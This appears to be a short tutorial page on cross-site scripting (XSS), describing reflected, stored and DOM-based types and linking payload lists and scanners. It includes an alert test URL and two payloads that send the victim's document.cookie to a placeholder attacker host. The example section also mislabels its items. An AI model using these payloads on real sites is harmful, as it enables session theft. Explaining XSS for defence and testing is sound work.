 # XSS

XSS is a type of security vulnerability that allows attackers to inject malicious scripts into web pages viewed by other users. These scripts can steal sensitive information, deface websites, or redirect users to malicious sites. XSS attacks are commonly used to bypass access controls, steal session cookies, and perform other malicious activities.

## Types of XSS

1. **Reflected XSS**: The attacker injects a malicious script into a URL that is reflected back to the user. This type of XSS is typically found in search fields, error messages, and other user input fields.

2. **Stored XSS**: The attacker injects a malicious script into a web application, which is then stored on the server and executed whenever a user accesses the affected page. This type of XSS is commonly found in comment sections, forums, and other user-generated content.

3. **DOM-based XSS**: The attacker injects a malicious script into the DOM (Document Object Model) of a web page, which is then executed by the client-side code. This type of XSS is typically found in client-side JavaScript code that processes user input.

## Example of Reflected XSS

Suppose we have a vulnerable web application that reflects user input without proper sanitization. An attacker can inject a malicious script into a URL parameter, which is then reflected back to the user.

1. **Vulnerable URL**: `http://example.com/search?query=<script>alert('XSS')</script>`

2. **Stored XSS**: The attacker injects a script that steals the user's session cookie and sends it to a remote server.

```html
<script>
  document.location = 'http://<IP>/?c=' + document.cookie;
</script>
```

3. **DOM-based XSS**: The attacker injects a script that redirects the user to a phishing site.

```html
<img src=x onerror="document.location='http://<IP>/?c='+document.cookie;">
```

## Links

- https://github.com/payloadbox/xss-payload-list
- https://github.com/s0md3v/XSStrike
- https://github.com/hahwul/dalfox